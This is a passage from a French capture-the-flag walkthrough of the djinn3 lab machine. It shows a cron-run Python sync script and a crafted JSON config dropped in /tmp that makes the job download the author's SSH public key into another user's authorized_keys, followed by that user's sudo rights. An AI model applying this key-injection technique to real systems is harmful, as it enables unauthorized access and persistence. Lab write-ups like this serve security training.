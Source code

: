 et celui-ci :

```python
from configuration import *
from connectors.ftpconn import *
from connectors.sshconn import *
from connectors.utils import *

def main():
    """Main function
    Cron job is going to make my work easy peasy
    """
    configPath = ConfigReader.set_config_path()
    config = ConfigReader.read_config(configPath)
    connections = checker(config)
    if 'FTP' in connections:
        ftpcon(config['FTP'])
    else:
        if 'SSH' in connections:
            sshcon(config['SSH'])
        else:
            if 'URL' in connections:
                sync(config['URL'], config['Output'])


if __name__ == '__main__':
    main()
```

Ok, donc le programme regarde dans `/tmp` si il y a des fichiers JSON nommés de la forme `jour-mois-année.config.json`, la date devant être plus récente qu'un fichier de référence que l'on ne connait pas. Je vais donc choisir `23-11-2022.config.json` soit demain au moment de ces lignes.

Le contenu du fichier JSON est alors chargé et différentes méthodes sont appelées en fonction de ce qui est présent dans le fichier.

Il reste à savoir ce que l'on met dedans. J'ai d'abord essayé de deviner ce que je pouvais mettre dans l'entrée `FTP` (URL du type `ftp://ip:port/` ou dictionnaire avec ip, port, etc ?) mais ça n'a rien donné.

Finalement j'ai utilisé la dernière option qui est assez explicite. L'objectif est de placer notre clé publique SSH dans le fichier `authorized_keys` de l'utilisateur :

```json
{
        "URL": "http://127.0.0.1:8000/authorized_keys",
        "Output": "/home/saint/.ssh/authorized_keys"
}
```

J'ai fait tourner `python -m http.server` sur la VM pour servir le fichier comme ça je suis sûr qu'il n'y aura pas une règle de pare-feu qui bloque.

Une fois la tache cron exécutée je peux me connecter avec le compte `saint` :

```console
saint@djinn3:~$ sudo -l
Matching Defaults entries for saint on djinn3:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User saint may run the following commands on djinn3:
    (root) NOPASSWD: /usr/sbin/adduser, !/usr/sbin/adduser * sudo, !/usr/sbin/adduser * admin
```
